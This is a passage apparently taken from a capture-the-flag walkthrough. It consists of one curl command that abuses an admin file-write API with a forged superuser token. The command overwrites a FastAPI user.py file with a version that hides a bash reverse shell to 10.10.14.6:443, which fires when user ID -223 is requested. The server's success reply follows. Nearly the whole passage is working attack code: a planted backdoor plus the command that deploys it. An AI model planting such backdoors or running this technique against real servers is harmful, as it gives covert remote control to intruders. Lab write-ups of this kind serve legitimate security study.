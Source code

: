    
    
    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == -223:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}
    